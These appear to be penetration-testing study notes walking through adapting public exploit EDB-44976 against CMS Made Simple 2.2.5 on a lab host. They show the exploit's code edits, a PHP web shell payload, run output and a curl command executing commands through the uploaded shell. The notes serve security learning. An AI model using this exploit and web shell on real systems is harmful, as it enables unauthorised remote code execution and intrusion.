 

Don't often result in memory corruption, therefore, they're not affected by DEP, ASLR, etc protections and exploits are significantly easier to re-purpose.  
  
However, public web app exploits don't take into account additional protections like htaccess, modsecurity, etc.  
  
Important to properly read code to understand what considerations must be taken in our editing process.  
Several key questions needed to ask while approaching the code:  
  
- Does it initiate an HTTP or HTTPS connection?  
- Does it access a web application specific path or route?  
- Does the exploit leverage a pre-authentication vulnerability?  
- If not, how does the exploit authenticate to the web application?  
- How are the GET or POST requests crafted to trigger and exploit the vulnerability?  
- Does it rely on default application settings (such as the web pathof the application) that may have been changed after installation?  
- Will oddities such as self-signed certificates disrupt the exploit?  
  
  
Ex:  
	During an assessment, we discover a Linux host w/ an _apache2_ server exposed.  
After enumerating the server, we find an install of _CMS Made Simple_ v2.2.5 listening on TCP port 443.  
```bash
dirb https://192.168.222.44
```

This version appears to be vuln to RCE & a public exploit is available on Exploit-DB (44976)  
  
The vuln's post-authentication, but we've discovered a valid app creds (admin/ HUYfaw763) on another machine during enum  
  
  
Looking at the code, things need to be updated:  
  
_Line 12_:  
```html
base_url = "http://192.168.1.10/cmsms/admin"
```
	Base URL variable needs to be changed to match the env  
	Same for the IP addr  
	Protocol needs to be set to HTTPS  
```html
base_url = "https://192.168.222.44/admin
```


Browsing to https://192.168.222.44/admin shows a Connection not Secure message:  
	_invalid security certificate_ (SEC_ERROR_UNKNOWN_ISSUER or ERROR_SELF_SIGNED_CERT)
![[self-signed.png]]

As the cert can't be validated, we must account for this in the exploit code.  
  
The exploit uses the _import requests_ library (_Line 9_) to comm w/ the target, making 3 POST requests.  
  
_Lines 34, 55, 80:_  
```python
response = requests.post(url, data=data, allow_redirects=False)  
...  
response = requests.post(url, data=data, files=txt, cookies=cookies)  
...  
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
```


The official doc indicates that the SSL cert can be ignored if we set the _verify_ param to False: [https://docs.python-requests.org/en/latest/user/advanced/#ssl-cert-verification](https://docs.python-requests.org/en/latest/user/advanced/#ssl-cert-verification)  

```python
response = requests.post(url, data=data, allow_redirects=False, verify=False)  
...  
response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)  
...  
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
```


Also need to change the creds to match those found.  
  
_Lines 15 & 16:_  
```python
username = "admin"  
password = "HUYfaw763"
```


Payload doesn't need to be changed as it only executes sys cmds passed in cleartext w/in GET:  
_Lines 20-21:_  
```python
php_filename = 'shell.php'  
payload = "<?php system($_GET['cmd']);?>"
```


Running the script throws an error:  
```bash
[+] Authenticated successfully with the supplied credentials  
Traceback (most recent call last):  
  File "web_EDB-44976.py", line 103, in <module>  
run()  
  File "web_EDB-44976.py", line 94, in run  
cookies,csrf_token = authenticate()  
  File "web_EDB-44976.py", line 38, in authenticate  
return response.cookies, parse_csrf_token(response.headers['Location'])  
  File "web_EDB-44976.py", line 24, in parse_csrf_token  
return location.split(csrf_param + "=")[1]  
IndexError: list index out of range  
```


Shows an exception was triggered during the execution of the _parse_csrf_token_ on _Line 24_ of the code.  
	Tells us the code tried to access a non-existent element of a Python list by accessing its 2nd element:  
_Lines 18, 23-24:_  
```python
csrf_param = "__c"  
...  
def parse_csrf_token(location):  
return location.split(csrf_param + "=")[1]
```


Looking at the code, you can see it uses the _split_ method to slice the string sotred in the _location_ parameter passed to the _parse_csrf_token_ func.  
  
Python doc for _split_ indicates that the method slices the input string using an optional delimiter passed as a first argument.  
The string slices returned by _split_ are then stored in a _List_ object that can be accessed via an index.  
Ex:  
```python
python  
  
>>> mystr = "Kali*-*Linux*-*Rocks"  
>>> result = mystr.split("*-*")  
>>> result  
['Kali', 'Linux', 'Rocks']  
>>> result[1]  
'Linux'
```

 
To help troubleshoot, we can insert a _print_ statement in the function before the return instructions:  
```python
def parse_csrf_token(location):  
print "[+] String being split: " + location  
return location.split(csrf_param + "=")[1]
```


Running the exploit again will print the full string before the _split_ method is invoked:  
```bash
[+] String being split: https://192.168.222.44/admin?_sk_=178967e0c571882184a  
```


As discovered, while the code expected the input string for _csrf_param_ to be “\_\__c_”, but instead received “\_\_sk\_\_”  
  
So fixing the parameter corrects the exploit:  
_Line 18:_  
```python
csrf_param = "_sk_"
```


Fix:  
```bash
[+] File copied successfully  
[+] Exploit succeeded, shell can be found at: https://192.168.222.44/uploads/shell.php  
```


Now we can validate the exploit by attaching to the php shell either in the browser or w/ [curl](OS%20Commands.md#curl):  
```bash
curl -k https://192.168.222.44/uploads/shell.php?cmd=whoami  
www-data
```
